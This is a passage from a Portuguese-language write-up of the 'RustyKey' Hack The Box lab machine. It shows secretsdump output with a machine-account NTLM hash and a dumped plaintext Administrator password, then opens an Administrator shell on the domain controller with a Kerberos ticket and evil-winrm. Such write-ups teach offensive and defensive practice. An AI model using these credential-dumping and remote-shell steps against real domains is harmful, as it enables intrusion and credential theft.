 ```bash
8ad3a3a74bc5f4d8fbfb77503eea0025b3194af0e290b16c0b52ca4fecbf9cfae6a60b24a4433c16b9b6786a9d212c7aaefefa417fe33cc7f4dcbe354af5ce95f407220bada9b4d841a3aa7c6231de9a9ca46a0621040dc384043e19800093
303e1485021289d8719dd426d164e90ee3db3914e3d378cc9e80560f20dcb64b488aa468c1b71c2bac3addb4a4d55231d667ca4ba2ad36640985d9b18128f7755b25                                                          
RUSTYKEY\DC$:aad3b435b51404eeaad3b435b51404ee:b266231227e43be890e63468ab168790:::                                                                                                             
[*] DefaultPassword                                                                                                                                                                           
RUSTYKEY\Administrator:Rustyrc4key#!                                            
...                                                                              
```

O `secretsDump` nos retornou a senha do **Administrator**, então não precisamos utilizar a hash. E para finalizar a máquina, só falta solicitar o TGT do **Administrator** e pegar a flag root:
```bash
>export KRB5CCNAME=Administrator.ccache                                
>evil-winrm -r RUSTYKEY.HTB -i dc.rustykey.htb
                                        
Evil-WinRM shell v3.7
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```